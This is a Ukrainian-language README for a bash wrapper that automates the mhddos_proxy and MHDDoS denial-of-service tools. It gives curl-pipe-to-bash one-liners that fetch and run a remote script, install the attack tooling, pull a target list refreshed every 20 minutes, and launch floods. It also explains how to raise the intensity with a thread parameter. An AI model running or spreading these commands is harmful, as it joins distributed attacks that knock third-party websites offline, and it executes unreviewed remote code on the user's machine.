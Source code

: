 ## ❕Опис

### mhddos_bash - скрипт на bash, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

* Запускається однією командою в Linux і WSL2 (Windows Subsystem for Linux). Подальше втручання від користувача не обов'язкове. 
 
```
curl -s https://raw.githubusercontent.com/KarboDuck/mhddos_bash/master/runner.sh | bash
```
* Автоматично встановлює git, python3, pip, mhddos_proxy, MHDDoS, розширений список proxy і всі залежності.

* Праюцює із базою сайтів [Українського женця](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База цілей оновлюється кожні 20 хвилин.

* Під час запуску завжди перевіряє і завантажує оновлення mhddos_proxy і MHDDoS.

Рекомендовано використовувати на Ubuntu 20.04. Але повинно працювати на всіх Ubuntu та Debian похідних, а також у WSL2.

Для зупинки скрипта кілька разів натисніть CTRL+C, або закрийте вікно з терміналом.

## ❕Зміна інтенсивності

Якщо скрипт дуже уповільнює ПК, або навпаки ви маєте невикористані ресурси, можна понизити, або навпаки підвищіти інтенсивність роботи скрипта. Для цього треба керувати параметром `threads`. По замовчуванню `threads = 1000`.

Щоб знизити навантаження на систему, спробуйте використати `threads = 500`

```
curl -s https://raw.githubusercontent.com/KarboDuck/mhddos_bash/master/runner.sh | bash -s -- 500
```

Щоб навантажити систему більше, спробуйте використати `threads = 2000`

```
curl -s https://raw.githubusercontent.com/KarboDuck/mhddos_bash/master/runner.sh | bash -s -- 2000
```
